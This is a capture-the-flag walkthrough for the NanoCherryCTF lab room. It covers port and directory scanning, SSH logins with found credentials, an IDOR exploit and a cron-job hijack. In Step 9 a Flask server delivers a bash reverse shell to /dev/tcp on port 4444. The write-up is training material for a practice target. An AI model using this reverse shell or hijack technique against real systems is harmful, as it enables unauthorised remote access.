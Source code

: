 
# NanoCherryCTF Walkthrough

## Step 1: Update `/etc/hosts` and Read the Story

- **Method:** Go to the `/etc/hosts` file and add `TARGET_IP` next to `cherryontop.thm`.
- **Answer:** No answer needed.

---

## Step 2: Port Scanning

We perform a port scan to identify open ports and gather useful information:

```bash
nmap -sV [TARGET_MACHINE_IP] -T5
```

### Scan Results:

```
Starting Nmap 7.94SVN (https://nmap.org) at 2024-10-05 14:34 EEST
Nmap scan report for nano.cherryontop.thm (10.10.232.170)
Host is up (0.092s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Step 3: Directory Enumeration

We proceed with directory enumeration:

```bash
gobuster dir -u http://10.10.232.170 -w /usr/share/wordlists/dirb/big.txt
```

### Gobuster Scan Results:

```
/.htaccess (Status: 403) [Size: 278]
/.htpasswd (Status: 403) [Size: 278]
/css (Status: 301) [Size: 312] [--> http://10.10.232.170/css/]
/images (Status: 301) [Size: 315] [--> http://10.10.232.170/images/]
/jquery (Status: 301) [Size: 315] [--> http://10.10.232.170/jquery/]
/js (Status: 301) [Size: 311] [--> http://10.10.232.170/js/]
/server-status (Status: 403) [Size: 278]
```

No useful findings here.

---

## Step 4: SSH Login

Using the provided credentials, we connect via SSH:

```bash
ssh notsus@10.10.232.170
```

- **Password:** `dontbeascriptkiddie`

---

## Step 5: Check Users

After logging in and checking the home directory, we see four users:

```bash
notsus@nanocherryctf:/home$ ls
bob-boba  chad-cherry  molly-milk  sam-sprinkles
```

---

## Step 6: Find Subdomains

Since the server runs on Apache, we look for subdomains:

```bash
grep -iR ServerName /etc/apache2/sites-enabled/
```

### Results:

```
/etc/apache2/sites-enabled/a.cherryontop.thm.conf: ServerName cherryontop.thm
/etc/apache2/sites-enabled/b.cherryontop.thm.conf: ServerName nano.cherryontop.thm
```

We add `nano.cherryontop.thm` to `/etc/hosts` and access the page.

---

## Step 7: Admin Login

- We navigate to the `login.php` page, but no SQL injection vulnerabilities are found.
- We discover `/users.db`.

### Gobuster Results for `/users.db`:

```
/users.db (Status: 200) [Size: 12288]
/login.php (Status: 200) [Size: 2310]
```

By inspecting `/users.db`, we find credentials:

- **Username:** `puppet`
- **Password:** `master`

Using these, we log into the admin portal and find Molly's flag: **THM{B________1}**.

We also obtain Molly's SSH password.

---

## Step 8: Connect to Chad

After logging into SSH, we find `chads-key1.txt`:

```
chads-key1.txt: n________y
```

We visit `http://cherryontop.thm/content.php`, which is vulnerable to IDOR. After encoding users in base32, we uncover Sam's secret:

- **sam-sprinkles:** `S____________3`

After logging in as Sam, we find `chads-key2.txt`:

```
chads-key2.txt: w____3
```

---

## Step 9: Checking Cron Jobs

We check crontabs and find `bob-boba` running a cron job. It fetches a script from `cherryontop.tld:8000`.

We host a Flask server to serve the `coinflip.sh` script containing a reverse shell:

### `exploit.py`:

```python
from flask import Flask
app = Flask(__name__)

@app.route('/home/bob-boba/coinflip.sh')
def coinflip():
    return """#!/bin/bash
bash -c 'bash -i >& /dev/tcp/THM_VPN_IP/4444 0>&1'
"""

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

We also set up a listener.

---

## Step 10: Gaining Access

After gaining access to `bob-boba`, we find the last key:

```
chads-key3.txt: 7_______3
```

We log into SSH as `chad-cherry` and find Chad's flag:

- **THM{I_W_______T}**

